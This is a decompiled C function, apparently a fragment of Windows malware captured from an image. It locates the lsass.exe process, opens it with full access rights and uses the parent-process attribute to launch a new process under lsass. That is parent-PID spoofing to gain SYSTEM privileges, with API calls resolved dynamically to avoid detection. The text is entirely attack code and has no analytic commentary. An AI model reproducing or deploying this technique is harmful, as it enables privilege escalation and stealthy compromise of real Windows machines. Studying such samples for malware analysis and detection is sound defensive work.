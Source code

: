 ```cpp
  undefined4 local_10;
  
  local_3c[0] = 0;
  pHVar2 = GetModuleHandleW(L"kernel32.dll");
  local_14 = GetProcAddress(pHVar2,"CreateToolhelp32Snapshot");
  local_18 = (*local_14)(2,0);
  local_2c4[0] = 0x22c;
  pHVar2 = GetModuleHandleW(L"kernel32.dll");
  local_1c = GetProcAddress(pHVar2,"Process32FirstW");
  pHVar2 = GetModuleHandleW(L"kernel32.dll");
  local_20 = GetProcAddress(pHVar2,"Process32NextW");
  iVar3 = (*local_1c)(local_18,local_2c4);
  if (iVar3 == 0) {
    local_24 = GetLastError();
  }
  do {
    iVar3 = wcscmp(awStack672,L"lsass.exe");
    if (iVar3 == 0) {
      local_10 = local_2bc;
    }
    iVar3 = (*local_20)(local_18,local_2c4);
  } while (iVar3 != 0);
  bVar1 = FUN_00401b91();
  if (CONCAT31(extraout_var,bVar1) == 0) {
    uVar4 = 0;
  }
  else {
    pHVar2 = GetModuleHandleW(L"kernel32.dll");
    local_28 = GetProcAddress(pHVar2,"OpenProcess");
    local_3c[0] = (*local_28)(0x1f0fff,0,local_10);
    if (local_3c[0] == 0) {
      uVar4 = 0;
    }
    else {
      memset(local_84,0,0x48);
      pHVar2 = GetModuleHandleW(L"kernel32.dll");
      local_2c = GetProcAddress(pHVar2,"InitializeProcThreadAttributeList");
      pHVar2 = GetModuleHandleW(L"kernel32.dll");
      local_30 = GetProcAddress(pHVar2,"UpdateProcThreadAttribute");
      (*local_2c)(0,1,0,&local_98);
      hHeap = GetProcessHeap();
      local_40 = HeapAlloc(hHeap,0,local_98);
      (*local_2c)(local_40,1,0,&local_98);
      (*local_30)(local_40,0,0x20000,local_3c,4,0,0);
      local_84[0] = 0x48;
      pHVar2 = GetModuleHandleW(L"kernel32.dll");
      local_34 = GetProcAddress(pHVar2,"CreateProcessA");
      FUN_00401570();
      iVar3 = (*local_34)(DAT_00416028,0,0,0,1,0x80010,0,0,local_84,local_94);
      if (iVar3 == 0) {
        uVar4 = 0;
      }
      else {
        uVar4 = 1;
      }
    }
  }
  return uVar4;
}
```
